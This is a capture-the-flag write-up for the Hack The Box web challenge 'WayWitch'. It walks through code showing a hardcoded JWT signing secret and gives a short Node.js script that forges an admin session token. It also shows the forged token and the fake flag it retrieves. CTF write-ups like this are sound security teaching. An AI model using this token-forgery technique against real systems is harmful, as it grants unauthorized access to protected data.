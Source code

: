```yaml
---
title: WayWitch - Hack The Box
date: 2024-12-09
---
```


# WayWitch

## Challenge description

Hidden in the shadows, a coven of witches communicates through arcane tokens, their messages cloaked in layers of dark
enchantments. These enchanted tokens safeguard their cryptic conversations, masking sinister plots that threaten to
unfold under the veil of night. However, whispers suggest that their protective spells are flawed, allowing outsiders to
forge their own charms. Can you exploit the weaknesses in their mystical seals, craft a token of your own, and 
infiltrate their circle to thwart their nefarious plans before the next moon rises? NOTE: use https:// to connect to the
instance

## Challenge overview

In this challenge, we are presented with a web application that allows unauthenticated users to submit tickets to a
witches' coven.

![WayWitch - Overview](/ctf/hack-the-box/challenges/web/way-witch/overview.png){style="display: block; margin: 0 auto"}

## Code Review

### database.js

The application utilizes a SQLite3 database to store ticket information. The `tickets` table is pre-populated with
several entries, including one from the `admin` user containing the flag:

```javascript
await this.db.exec(`
      INSERT INTO tickets (name, username, content) VALUES
      ('John Doe', 'guest_1234', 'I need help with my account.'),
      ('Jane Smith', 'guest_5678', 'There is an issue with my subscription.'),
      ('Admin', 'admin', 'Top secret: The Halloween party is at the haunted mansion this year. Use this code to enter ${flag}'),
      ('Paul Blake', 'guest_9012', 'Can someone assist with resetting my password?'),
      ('Alice Cooper', 'guest_3456', 'The app crashes every time I try to upload a picture.');
  `);
```

### rootes/index.js

The `/tickets` route displays the contents of the `tickets` table. Access to this route is restricted to users 
authenticated as `admin`:

```js
router.get("/tickets", async (req, res) => {
    const sessionToken = req.cookies.session_token; // [!code focus]

    if (!sessionToken) {
        return res.status(401).json(response("No session token provided"));
    }

    try {
        const username = getUsernameFromToken(sessionToken); // [!code focus]

        if (username === "admin") { // [!code focus]
            try {
                const tickets = await db.get_tickets(); // [!code focus]
                return res.status(200).json({ tickets }); // [!code focus]
            } catch (err) {
                return res
                    .status(500)
                    .json(response("Error fetching tickets: " + err.message));
            }
        } else {
            return res
                .status(403)
                .json(response("Access denied. Admin privileges required."));
        }
    } catch (err) {
        return res.status(400).json(response(err.message));
    }
});
```

This route checks for a `session_token` cookie, extracts the username using the `getUsernameFromToken` function, and
verifies if the user is `admin`. If so, it retrieves and returns the tickets; otherwise, it denies access.

### utils.js

The `getUsernameFromToken` function decodes the session token to extract the username:

```javascript
const jwt = require("jsonwebtoken");

function getUsernameFromToken(token) {
    const secret = "halloween-secret";

    try {
        const decoded = jwt.verify(token, secret);
        return decoded.username;
    } catch (err) {
        throw new Error("Invalid token: " + err.message);
    }
}
```

This function uses the `jsonwebtoken` library to verify and decode the token with the secret key `halloween-secret`. By
crafting a valid token with the username set to `admin`, an attacker can gain unauthorized access to the `/tickets`
route.

## Exploitation

To exploit this vulnerability, we can create a JSON Web Token (JWT) with the payload `{ "username": "admin" }` and sign
it using the secret key `halloween-secret`. This can be achieved using the `jsonwebtoken` library in Node.js:

```javascript
const jwt = require("jsonwebtoken");

console.log(jwt.sign({ username: "admin" }, "halloween-secret"));
```

Running this script will output a JWT:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzMzODY4MzQ3fQ.kmpxqrB-pmEqJf51ASzid27tIYtPRVZALeoriRSByqk
```

By setting this token as the value of the `session_token` cookie in the browser, we can access the `/tickets` route and
retrieve the flag:

```json
{
    "tickets": [
        {
            "id": 1,
            "name": "John Doe",
            "username": "guest_1234",
            "content": "I need help with my account."
        },
        {
            "id": 2,
            "name": "Jane Smith",
            "username": "guest_5678",
            "content": "There is an issue with my subscription."
        },
        { // [!code focus]
            "id": 3, // [!code focus]
            "name": "Admin", // [!code focus]
            "username": "admin", // [!code focus]
            "content": "Top secret: The Halloween party is at the haunted mansion this year. Use this code to enter HTB{f4k3_fl4g_f0r_t35t1ng}\n" // [!code focus]
        }, // [!code focus]
        {
            "id": 4,
            "name": "Paul Blake",
            "username": "guest_9012",
            "content": "Can someone assist with resetting my password?"
        },
        {
            "id": 5,
            "name": "Alice Cooper",
            "username": "guest_3456",
            "content": "The app crashes every time I try to upload a picture."
        }
    ]
}
```

The flag is in the content of the ticket created by the `admin` user:

```
Top secret: The Halloween party is at the haunted mansion this year. Use this code to enter HTB{f4k3_fl4g_f0r_t35t1ng}
```

With the fake flag retrieved, we can use the same technique to get the real flag on the HTB server.

![WayWitch - pwned](/ctf/hack-the-box/challenges/web/way-witch/pwned.png)

## References

- [jsonwebtoken](https://www.npmjs.com/package/jsonwebtoken)
